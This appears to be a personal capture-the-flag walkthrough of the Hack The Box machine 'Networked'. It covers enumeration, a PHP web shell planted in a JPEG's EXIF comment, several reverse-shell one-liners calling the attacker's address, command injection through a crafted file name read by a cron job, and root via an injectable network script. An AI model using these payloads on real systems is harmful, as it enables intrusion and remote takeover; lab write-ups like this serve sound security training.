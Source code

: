 
  
  
  
  

Networked HTB, IP 10.10.10.146

#Initial Enumeration

1. nmap -sC -sV 10.10.10.146


2. Dirb/ Gobuster
dirb http://10.10.10.146
dirb http://10.10.10.146 -X .php


----------------------------------------------------------------------------------------------------------------------------
#Port Enumeration

1.Enumerating port 80



View page source: Control+U



Interesting Files

 http://10.10.10.146/upload.php



Trying to upload a shell we see the error “Invalid image file”

http:10.10.10.146/backup




Download the file backup.tar






Modifying bb.jpeg

exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' bb.jpeg
mv bb.jpeg bb.php.jpeg

We successfully uploaded bb.php.jpeg photo.
view-source:http://10.10.10.146/uploads/10_10_14_21.php.jpeg?cmd=nc -e /bin/bash 10.10.14.21 8888



Try..
A)bash -i >& /dev/tcp/10.10.14.21/1234 0>&1
B) nc -e /bin/sh 10.10.14.21 1234  DONE
C) python -c 'import soc ket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.21",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);’


  After enumerating home directory of user guly we see that a php script is running as a cronjob which could be used to gain shell as that user. Lets look at code check_attack.php.  





Notes:
  We see that it scans for files, If the files were found as malicious, then a cron job will check and report to guly with mail($to, $msg, $msg, $headers, "-F$value"); every three minutes, for files in /var/www/html/uploads that doesn’t begin with an IP address. We can touch a file with a file name that begins with ; to separate sendmail from the command that we want to execute.
   
   touch ';nc 10.10.12.161 4321 -c bash'   
   
   
   
   
   user.txt

-------------------------------------------------------------------------------------------------------------------------------------------------------------------
  #Privilege Escalation
  
   sudo -l
   (root) NOPASSWD: /usr/local/sbin/changename.sh


   As guly I checked sudo -l and found that guly can run /usr/local/sbin/changename.sh as root without a password:
   
   
   
  This script simply creates a network script for an interface called guly then activates that interface. It asks the user for these options: NAME, PROXY_METHOD, BROWSER_ONLY, BOOTPROTO. We’re interested in the options because according to this page(https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f) we can inject commands in the interface name. Let’s try to execute bash:
  
   interface NAME:
   gu bash 
  
   or   
   
   
root.txt
